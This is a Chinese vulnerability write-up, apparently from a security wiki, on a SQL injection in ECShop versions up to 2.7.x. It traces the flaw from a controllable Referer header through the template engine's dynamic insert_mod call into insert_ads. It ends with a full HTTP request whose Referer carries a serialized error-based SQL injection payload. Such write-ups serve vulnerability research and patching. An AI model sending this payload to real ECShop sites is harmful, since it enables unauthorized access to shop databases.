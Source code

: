 ECShop \<= 2.7.x sql注入漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

ECShop（2.x、3.0.x、3.6.x）

三、复现过程
------------

### 漏洞分析

先看user.php

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.xsql注入漏洞/media/rId25.png)

\$back\_act变量来源于HTTP\_REFERER，我们可控。

assign函数用于在模版变量里赋值

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.xsql注入漏洞/media/rId26.png)

再看display函数

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.xsql注入漏洞/media/rId27.png)

读取user\_passport.dwt模版文件内容，显示解析变量后的html内容，用\_echash做分割，得到\$k然后交给isnert\_mod处理，由于\_echash是默认的，不是随机生成的，所以\$val内容可随意控制。

再看insert\_mod函数

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.xsql注入漏洞/media/rId28.png)

非常关键的一个地方，这里进行了动态调用

\$val传入进来用\|分割，参数传入进来时需要被序列化

再看include/lib\_insert.php中的insert\_ads函数

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.xsql注入漏洞/media/rId29.png)

可以看到这里直接就能注入了

### payload

    GET /user.php?act=login HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.xsql注入漏洞/media/rId31.png)

参考链接
--------

> https://cloud.tencent.com/developer/article/1333449

